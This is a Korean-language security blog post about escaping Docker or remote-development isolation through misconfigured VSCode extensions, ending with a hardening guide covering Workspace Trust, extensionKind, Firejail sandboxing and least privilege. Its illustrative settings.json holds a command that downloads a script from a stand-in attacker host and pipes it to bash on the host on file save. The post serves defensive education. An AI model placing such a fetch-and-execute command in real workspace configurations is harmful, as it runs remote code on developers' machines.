

## 서론

최근 생성형 AI와 대규모 언어 모델(LLM) 연구가 활발해지면서, 연구자들은 종종 arXiv나 GitHub와 같은 공개 저장소에서 방대한 양의 코드를 다운로드하여 실험합니다. 이 과정에서 악성 코드가 포함될 가능성이 있는 신뢰할 수 없는 소스 코드를 실행해야 하는 상황이 빈번합니다. 이를 방어하기 위해 많은 개발자와 연구자가 Docker 컨테이너나 원격 SSH 환경을 사용하여 개발 환경을 격리(Isolation)합니다.

그러나 우리가 맹신하는 '컨테이너'라는 성벽도 내부의 도구가 잘못 설정되면 무력화될 수 있습니다. 바로 Visual Studio Code(VSCode)의 Remote Development 기능과 Extension이 그 취약점일 수 있습니다. Trail of Bits의 보고서에 따르면, 잘못 구성된 VSCode Extension은 컨테이너 내의 공격자가 마치 호스트 머신에 직접 앉은 것처럼 행동할 수 있는 '탈출 경로'를 제공할 수 있습니다. 이는 단순한 설정 오류가 아니라, 소프트웨어 공급망의 보안 경계를 무너뜨릴 수 있는 심각한 위협입니다.

이 글에서는 VSCode Extension이 어떻게 격리 환경을 우회하여 공격으로 이어지는지 기술적 원리를 분석하고, 이를 방어하기 위한 실질적인 가이드를 제시합니다.

## 본론

### 1. 공격 원리: Remote Extension의 아킬레스건

VSCode의 Remote Development(SSH, Containers, WSL) 환경은 기본적으로 '클라이언트-서버' 아키텍처를 따릅니다. 호스트 머신(로컬)에는 가벼운 UI 클라이언트가 있고, 컨테이너(원격)에는 무거운 언어 서버와 확장 프로그램이 실행됩니다. 이때 보안의 핵심은 확장 프로그램이 **어디서 실행되느냐**와 **어떤 권한을 갖느냐**입니다.

문제는 확장 프로그램의 `extensionKind` 설정이나 `settings.json`의 오配置(misconfiguration)입니다. 만약 악의적인 사용자가 컨테이너 내에 `.vscode/settings.json` 파일을 심고, 이를 통해 로컬 머신에서 코드를 실행하도록 Extension을 유도한다면 어떻게 될까요?

공격자는 컨테이너 내부에서만 접근 권한을 갖지만, Extension을 통해 로컬 머신의 파일 시스템이나 시스템 명령어를 호출할 수 있습니다. 예를 들어, 디버거 Extension이 컨테이너가 아닌 로컬 호스트에서 스크립트를 실행하도록 설정된 경우, 공격자는 디버깅 과정을 가장하여 호스트 머신에서 악성 스크립트를 실행시킬 수 있습니다.

### 2. 공격 시나리오 가시화

아래 다이어그램은 신뢰할 수 없는 컨테이너 환경에서 시작된 공격이 VSCode Extension을 통해 호스트 머신으로 탈출하는 경로를 단순화하여 보여줍니다.



### 3. 취약한 설정과 악성 코드 예시

가장 흔한 취약점 중 하나는 Extension이 작업 영역(Workspace)의 설정을 무비판적으로 신뢰하고 실행하는 경우입니다. 다음은 가상의 시나리오를 바탕으로 한 악성 `settings.json` 예시입니다.

이 코드는 개발자가 특정 작업을 자동화하기 위해 사용하는 "Auto Run Script"라는 가상의 Extension을 공격 대상으로 삼습니다. 공격자는 컨테이너 내에 이 설정을 포함한 프로젝트를 올립니다.

```json
// .vscode/settings.json inside the container
{
  "autoRunScript.onFileSave": true,
  "autoRunScript.command": "bash -c 'curl http://attacker-server.com/payload.sh | bash'",
  "autoRunScript.runLocation": "local" // Vulnerable setting: forces execution on host
}
```

만약 VSCode Extension이 `runLocation: "local"` 설정을 확인하지 않고, 혹은 이를 우회하여 로컬 머신에서 명령어를 실행하도록 설계되어 있다면, 개발자가 파일을 저장(Save)하는 순간 호스트 머신에서 악성 스크립트가 다운로드되어 실행됩니다.

### 4. Extension 실행 위치 및 보안 비교

모든 Extension이 같은 위험 수준을 갖는 것은 아닙니다. Extension이 로컬(Local)에서 실행되는지, 원격(Remote/Workspace)에서 실행되는지에 따라 격리 수준이 달라집니다. 다음은 이에 대한 비교표입니다.

| 비교 항목 | UI-Only Extension (Local) | Workspace Extension (Remote) | Misconfigured (Mixed) |
| :--- | :--- | :--- | :--- |
| **실행 위치** | 호스트 머신 (Host UI) | 컨테이너 / 원격 서버 | 로컬 및 원격 혼재 |
| **파일 시스템 접근** | 호스트 전체 접근 가능 | 컨테이너 내부로 제한됨 | 설정에 따라 호스트 접근 가능 |
| **주요 위험 요소** | Extension 자체가 악성일 경우 | 원격 코드 실행(RCE) | **격리 파괴(Escape)** |
| **신뢰 경계** | Extension 개발자를 신뢰해야 함 | 호스트가 Extension을 신뢰해야 함 | **양방향 신뢰 필요** |

### 5. 실무 보안 가이드: 방어 및 완화 전략

MLOps 및 개발 환경에서 이러한 취약점을 방어하기 위해 다음과 같은 단계별 가이드를 따라야 합니다.

**Step 1: Workspace Trust 기능 활성화** VSCode 최신 버전은 'Workspace Trust' 기능을 제공합니다. 신뢰하지 않는 폴더(외부에서 받은 코드)를 열 때 VSCode가 자동으로 'Restricted Mode'로 진입하도록 설정해야 합니다. 이 모드에서는 자동 실행 기능이 차단됩니다.

**Step 2: Extension의 `extensionKind` 검토 및 설정** Extension 개발자라면 `package.json`에서 실행 위치를 명확히 명시해야 합니다. 사용자는 Extension이 로컬에서 실행되는지, 원격에서 실행되는지 확인해야 합니다.

```json
// package.json for Extension Developers
{
  "name": "my-secure-extension",
  "extensionKind": [
    "ui", // Local only
    "workspace" // Remote only
  ]
}
```

**Step 3: Firejail 또는 AppArmor를 이용한 VSCode 샌드박싱** VSCode 자체를 샌드박스 내에서 실행하는 것이 가장 강력한 방어책입니다. 리눅스 환경에서는 Firejail을 사용하여 VSCode 프로세스의 시스템 호출을 제한할 수 있습니다.

```bash
# Example: Running VSCode inside Firejail
firejail --noprofile --private --net=none code
```

**Step 4: 최소 권한 원칙 (PoLP) 적용** 호스트 머신의 VSCode를 관리자 권한(root)으로 실행하지 마십시오. 또한, SSH 키나 민감한 자격 증명이 노출될 수 있는 환경 변수를 컨테이너와 공유하지 않도록 주의해야 합니다.

## 결론

VSCode와 같은 강력한 개발 도구는 생산성을 극대화해주지만, 그 복잡성만큼이나 공격 표면 또한 넓습니다. Trail of Bits가 분석한 '컨테이너 탈출' 취약점은 완벽하게 격리되었다고 믿었던 환경이 단순한 설정 파일 하나로 무너질 수 있음을 시사합니다.

특히 AI/ML 연구자들은 수많은 외부 라이브러리와 데이터셋을 다루기 때문에, 단순히 Docker를 사용한다고 안심할 것이 아니라 사용하는 도구(IDE, Extension)의 보안 설정을 면밀히 검토해야 합니다. **'Zero Trust'**는 단순히 네트워크에만 적용되는 개념이 아니라, 우리가 작성하는 코드를 실행하는 에디터와 확장 프로그램에도 적용되어야 할 필수 불가결한 원칙입니다.

개발 환경의 보안을 강화하는 것은 결국 연구 자산과 IP를 보호하는 직접적인 연결고리가 됩니다. Workspace Trust를 활성화하고, 불필요한 Extension의 권한을 제거하여 보안 사각지대를 제거하시기 바랍니다.

### 참고자료

- [Trail of Bits - Escaping Misconfigured VSCode Extensions](https://blog.trailofbits.com/2023/02/21/vscode-extension-escape-vulnerability/)

- [Visual Studio Code - Workspace Trust](https://code.visualstudio.com/docs/editor/workspace-trust)

- [Microsoft VSCode Security](https://code.visualstudio.com/docs/remote/security)
